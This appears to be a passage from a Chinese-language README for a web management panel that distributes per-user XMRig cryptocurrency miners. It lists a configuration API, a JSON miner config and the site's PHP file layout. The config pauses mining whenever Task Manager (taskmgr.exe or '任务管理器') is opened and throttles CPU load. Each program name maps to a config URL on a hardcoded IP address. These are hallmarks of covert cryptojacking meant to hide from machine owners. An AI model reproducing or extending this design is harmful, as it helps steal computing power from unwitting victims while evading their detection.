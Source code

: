 ## 🔧 技术实现

### API接口

#### 配置获取API
```
GET http://your-domain.com/api/user_config.php?user={username}
```

返回JSON格式配置：
```json
{
    "pools": [{
        "url": "pool.address:3333",
        "user": "wallet.username",
        "pass": "x"
    }],
    "cpu": {
        "enabled": true,
        "max-threads-hint": 70
    },
    "cpu-high-pause": 95,
    "cpu-low-resume": 30,
    "process-pause-names": "taskmgr.exe",
    "window-pause-names": "任务管理器"
}
```

### XMRig配置URL生成规则

```cpp
// 程序名 → API URL
username → http://182.92.97.16:8181/api/user_config.php?user=username
john123 → http://182.92.97.16:8181/api/user_config.php?user=john123
test → http://182.92.97.16:8181/api/user_config.php?user=test
```

## 📁 文件结构

### Web系统
```
web-manager/
├── api/
│   ├── user_config.php      # 用户配置API
│   └── get_config.php        # 兼容旧版API
├── user/
│   ├── index.php            # 用户中心
│   ├── download.php         # 下载页面
│   └── get_miner.php        # 程序下载处理
├── admin/
│   └── index.php            # 管理后台
├── login.php                # 登录页面
├── register.php             # 注册页面
└── config.php               # 系统配置
```
